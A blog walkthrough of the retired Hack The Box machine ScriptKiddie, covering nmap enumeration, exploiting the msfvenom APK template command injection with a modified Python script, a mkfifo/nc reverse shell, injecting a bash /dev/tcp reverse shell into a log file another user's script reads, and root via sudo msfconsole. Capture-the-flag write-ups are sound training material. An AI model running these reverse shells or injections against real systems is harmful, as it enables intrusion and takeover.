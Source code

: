 ```yaml
---
layout: single
title: "Walktrough: HTB ScriptKiddie"
namespace: htb-scriptkiddie
category: Walkthrough
tags:
    - HackTheBox
    - HTB Easy
    - HTB Linux
date: 2021-06-05 16:00:00
header:
    teaser: https://i.imgur.com/Egv2O1k.png
    og_image: *teaser
redirect_from: /writeup/2021/06/htb-scriptkiddie
---
```


Hello guys!

This week's machine will be **ScriptKiddie**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu), created by [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**:  Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeration

As usual, started running a `nmap` quick scan, to see which services were published on this machine.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - HTTP Service

Once accessed the published page, noticed some hacking tools published making it easier for a script kiddie to play with hacking, allowing you to scan an IP using `nmap`, create a `msfvenom` payload or search for exploits using `searchsploit`.

I've tried several ways to inject commands in these forms, but none of the attempts succeeded. I have even found an interesting tool called [commixproject/commix](https://github.com/commixproject/commix) in GitHub that automates this process but had no luck this time.

Looking for vulnerabilities in the tools used by the app (`nmap`, `msfvenom`, `searchsploit`), I have found one related to `msfvenom`, as below:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Initial access and User flag

After changing the python script available in searchsploit, using the desired payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, I have found some errors during the execution of the binary `keytool`, once it tries to sign an APK file with the payload in the Common Name but, as there was a `+` in the base64 encoded content, made a quick change to encode it twice, allowing me to create an evil APK to be uploaded to the tool and exploit the vulnerability

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Below we can see the output of the execution which generates the `evil.apk` file.

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

After obtaining the evil payload, started one listener and selected the options suggested in the payload output, where selecting the android operating system would result in the payload `android/meterpreter/reverse_tcp` we aim to abuse based in the existing vulnerability, as well as specifying the lhost as 127.0.0.1 but this shouldn't impact the way exploit will work.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

After hitting the **Generate** button, a reverse shell was returned, as seen below in this screenshot.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Inspecting the session obtained, with the credentials running the web application, in this case user `kid`, was possible to obtain the user flag, as the file resided in it's home directory.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

After running `linenum.sh` to automate the enumeration, noticed taht there was another user called `pwn`, possibly with more privileges than the user we currently have. As we had access to it's home directory, found a file called `scanloosers.sh` with the following content:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

As this script reads the content of a file in the current's user home directory (`/home/kid/logs/hackers`) and issues an `nmap` command, edited the content of this file in a way we would inject a reverse shell command with the user running this script, possibly `pwn`.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

After setting up a new listener and changing the `hackers` file with the above-mentioned content, another session was obtained, this time with the user `pwn` :smile:

Enumerating the box again, this time with the new user account, noticed by running `linpeas.sh` that this user has access to start `msfconsole` in a privileged way.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Once started it using `sudo`, I was able to issue commands as user `root`, as well as read the content of file `/root/root.txt` and obtain the final flag for this machine.

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Hope this was somehow useful!

See you in the next post :smiley:

